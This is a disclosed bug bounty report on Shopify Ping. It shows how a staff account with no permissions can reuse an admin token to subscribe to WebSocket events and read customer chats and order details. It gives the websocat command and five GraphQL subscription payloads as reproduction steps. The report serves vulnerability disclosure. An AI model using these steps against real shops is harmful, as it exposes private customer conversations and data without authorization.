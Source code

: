 # Staff with no permissions can listen to Shopify Ping conversations by registering to its different WebSocket Events

## Report Details
- **Report ID**: 1023669
- **URL**: https://hackerone.com/reports/1023669
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2020-10-31T23:47:39.541Z
- **Disclosed**: 2020-11-19T20:11:37.668Z

## Reporter
- **Username**: imgnotfound
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: shopify

## Vulnerability Information
By registering to a few different Shopify Ping Websocket Events on the `wss://argus.shopifycloud.com/graphql?shop_id={id}` endpoint, a staff without any permission can listen to conversions with customers.

## Steps to reproduce
1. With a staff that doesn't have any permissions, login into the shop admin at `https://{shop}.myshopify.com/admin`
1. Within your browser, open the Network inspection tab and copy the **argus token** value from the response of the **GetToken** operation that is being sent to `https://{shop}.myshopify.com/admin/internal/web/graphql/core`
1. Using **websocat** command line tool or any other WebSocket client:

Open a connection
 ```
websocat "wss://argus.shopifycloud.com/graphql?shop_id={id}"
 ```

Send the authorization request by taking care of replacing the `{token}` with the actual value from **Step 2**
 ```
{"type":"connection_init","payload":{"Authorization":"{token}"}}
```

Register to different Events
```
{"id":"1","type":"start","payload":{"variables":{"eventName":"conversation"},"extensions":{},"operationName":"EventSubscription","query":"subscription EventSubscription($eventName: String!) {\n  eventReceived(eventName: $eventName) {\n    eventName\n    shopId\n    eventTimestamp\n    eventUuid\n    eventId\n    eventScope\n    eventSerialGroup\n    eventSerialId\n    eventSourceApp\n    eventSourceHost\n    internalSessionId\n    remoteIp\n    requestId\n    schemaVersion\n    userId\n    payload\n    __typename\n  }\n}\n"}}
```

```
{"id":"2","type":"start","payload":{"variables":{"eventName":"message_status"},"extensions":{},"operationName":"EventSubscription","query":"subscription EventSubscription($eventName: String!) {\n  eventReceived(eventName: $eventName) {\n    eventName\n    shopId\n    eventTimestamp\n    eventUuid\n    eventId\n    eventScope\n    eventSerialGroup\n    eventSerialId\n    eventSourceApp\n    eventSourceHost\n    internalSessionId\n    remoteIp\n    requestId\n    schemaVersion\n    userId\n    payload\n    __typename\n  }\n}\n"}}
```

```
{"id":"3","type":"start","payload":{"variables":{"eventName":"message"},"extensions":{},"operationName":"EventSubscription","query":"subscription EventSubscription($eventName: String!) {\n  eventReceived(eventName: $eventName) {\n    eventName\n    shopId\n    eventTimestamp\n    eventUuid\n    eventId\n    eventScope\n    eventSerialGroup\n    eventSerialId\n    eventSourceApp\n    eventSourceHost\n    internalSessionId\n    remoteIp\n    requestId\n    schemaVersion\n    userId\n    payload\n    __typename\n  }\n}\n"}}
```

```
{"id":"4","type":"start","payload":{"variables":{"eventName":"participant"},"extensions":{},"operationName":"EventSubscription","query":"subscription EventSubscription($eventName: String!) {\n  eventReceived(eventName: $eventName) {\n    eventName\n    shopId\n    eventTimestamp\n    eventUuid\n    eventId\n    eventScope\n    eventSerialGroup\n    eventSerialId\n    eventSourceApp\n    eventSourceHost\n    internalSessionId\n    remoteIp\n    requestId\n    schemaVersion\n    userId\n    payload\n    __typename\n  }\n}\n"}}
```
```
{"id":"5","type":"start","payload":{"variables":{"eventName":"read_state"},"extensions":{},"operationName":"EventSubscription","query":"subscription EventSubscription($eventName: String!) {\n  eventReceived(eventName: $eventName) {\n    eventName\n    shopId\n    eventTimestamp\n    eventUuid\n    eventId\n    eventScope\n    eventSerialGroup\n    eventSerialId\n    eventSourceApp\n    eventSourceHost\n    internalSessionId\n    remoteIp\n    requestId\n    schemaVersion\n    userId\n    payload\n    __typename\n  }\n}\n"}}
```
 
4.Using your browser in Incognito, create a new Shopify Chat discussion by opening `https://{shop}.myshopify.com/?chat` and proceed with a customer order lookup operation
 5.In your command line, observe that you'll be receiving any messages from that conversion along with the customer order status page link

## Demo
███████

## Impact

A staff without any permissions can listen to ongoing Shopify Ping conversions and therefore get access to some customer details and order informations.

## Attachments
No attachments
